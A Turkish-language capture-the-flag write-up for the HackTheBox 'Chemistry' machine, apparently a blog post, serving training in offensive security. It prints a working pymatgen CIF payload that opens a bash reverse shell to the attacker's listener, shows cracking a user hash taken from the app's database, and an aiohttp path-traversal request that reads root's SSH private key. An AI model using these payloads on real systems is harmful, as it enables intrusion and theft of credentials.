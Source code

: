 ```yaml
---
title: 'HackTheBox | Chemistry WriteUp'
author: appdone
categories: [HackTheBox Machines]
tags: [command injection, lfi, directory traversal]
render_with_liquid: false
media_subpath: /images/hackthebox_chemistry/
image:
  path: logo.webp
---
```


## Özet

Web uygulamasında bir dosyanın analiz edildiği sırada oluşan bir zafiyet olduğunu öğrenecek ve dosya içeriğini değiştirerek zafiyeti istismar edeceğiz. Daha sonra web uygulamasında kullanılan `sqlite` dosyasının içerisinden sistem kullanıcısının bilgilerini çıkaracağız. Yetki yükseltebilmek için sistemde dolaştığımız sırada yerel ağda bir web uygulamasının çalıştığını tespit edecek ve bu web uygulamasında kullanılan bir modülün üzerinde `Local File Inclusion` zafiyetinin olduğunu keşfedeceğiz. Sonrada bu zafiyetten faydalanarak `root` kullanıcısının `id_rsa` dosyasını çekecek ve bu dosyayı kullanarak `root` kullanıcısına geçiş yapacağız.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sV -sC -T4 10.10.11.38
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-22 07:44 EDT
Nmap scan report for 10.10.11.38
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.9.5
...
```

Tarama sonucunda 22 (SSH) ve 5000 (HTTP) numaralı portların açık olduğunu ve web uygulamasının `python flask` ile yapıldığını öğreniyoruz.

### 80 numaralı port'un incelenmesi

![](1.webp){: width="900" height="500" }

HTTP servisi üzerinde `flask` ile yapılmış `CIF` dosyalarını analiz eden bir uygulama barınıyor. Bir kullanıcı oluşturalım daha sonra ise siteye giriş yapalım.

![](2.webp){: width="900" height="500" }

Örnek bir `CIF` dosyası verilmiş. Bu dosyayı indirdikten sonra tekrar yüklüyor ve sonuçları görüntülüyoruz.

![](3.webp){: width="900" height="600" }

Bazı yazıları doğrudan ekrana yazdırdığını düşünerek dosyayı düzenlemeye çalıştım ama hiçbir şekilde kod çalıştıramadım. Uzantısını google da arattığımızda ise [bu](https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/) sayfa ile karşılaşıyoruz.

## Sömürü aşaması

Sayfa içerisinde gördüğümüz `CIF` dosyasının komut çalıştırdığı alanına reverse shell komutumuzu ekleyelim.

```cif
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.117/4444 0>&1'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Bu içeriği `.cif` uzantılı olacak şekilde bir dosyaya kayıt ettikten sonra dinlemeye aldığımız port üzerinden bir shell elde ediyoruz.

![](4.webp){: width="1200" height="600" }

## Yetki yükseltme

### rosa

Web uygulamasında kullanıcı girişi olduğunu hatırlıyorsunuzdur, bu kullanıcı bilgilerinin bulunduğu dosyanın içerisinde sistem kullanıcılarından biri olan rosa'nın bilgileride bulunuyor.

```console
app@chemistry:~/instance$ strings database.db | grep "rosa"
Mrosa63ed86ee9f624c7b14f1d4f43dc251a5'
```

Hash'i [hashes.com](https://hashes.com/) sitesinin yardımıyla kırdıktan sonra rosa kullanıcısına geçiş yapıyor ve ilk bayrağı kendi dizininden alıyoruz.

### root

8080 numaralı yerel port üzerinde bir web uygulaması çalışıyor.

```console
rosa@chemistry:~$ netstat -tupln
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      34896/bash          
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
rosa@chemistry:~$
```

Bu web uygulaması ile ilgilenebilmemiz için SSH tünellemesi vasıtasıyla kendi ağımızdan geçireceğiz.

```console
$ ssh rosa@10.10.11.38 -L 8080:127.0.0.1:8080
```

![](5.webp){: width="1200" height="600" }

Web uygulaması sistemdeki servislerin kontrolünü sağlayan bir uygulamaya benziyor. Tüm özellikleri de kapalı durumda, site üzerinde hiçbir işlem yapamıyoruz.

![](6.webp){: width="1200" height="600" }

Bulunduğu `/opt/monitoring_site` dizininede giriş iznimiz yok. Geliştirici araçlarının yardımıyla web uygulamasının header bilgilerini görüntülediğimizde python da bulunan `aiohttp` modülünün `3.9.1` sürümünü kullandığını görüyoruz.

![](7.webp){: width="1200" height="600" }

Modülü sürümüyle beraber internette arattığımızda [Local File Inclusion](https://github.com/wizarddos/CVE-2024-23334/blob/master/exploit.py) zafiyetinin varlığından haberdar oluyoruz. Bu zafiyetten yararlanarak `root` kullanıcısının dizininde bulunan `id_rsa` dosyasını çekiyoruz.

```console
rosa@chemistry:~$ curl --path-as-is http://localhost:8080/assets/../../../../../../root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAsFbYzGxskgZ6YM1LOUJsjU66WHi8Y2ZFQcM3G8VjO+NHKK8P0hIU
UbnmTGaPeW4evLeehnYFQleaC9u//vciBLNOWGqeg6Kjsq2lVRkAvwK2suJSTtVZ8qGi1v
j0wO69QoWrHERaRqmTzranVyYAdTmiXlGqUyiy0I7GVYqhv/QC7jt6For4PMAjcT0ED3Gk
HVJONbz2eav5aFJcOvsCG1aC93Le5R43Wgwo7kHPlfM5DjSDRqmBxZpaLpWK3HwCKYITbo
DfYsOMY0zyI0k5yLl1s685qJIYJHmin9HZBmDIwS7e2riTHhNbt2naHxd0WkJ8PUTgXuV2
...
```

Daha sonra kendisini kullanarak sisteme giriş yapıyor ve bayrağı `/root` dizininden alıyoruz.

```console
$ chmod 600 id_rsa
$ ssh root@10.10.11.38 -i id_rsa
...
root@chemistry:~# ls
root.txt
root@chemistry:~# cat root.txt 
33a1...8a9a
```

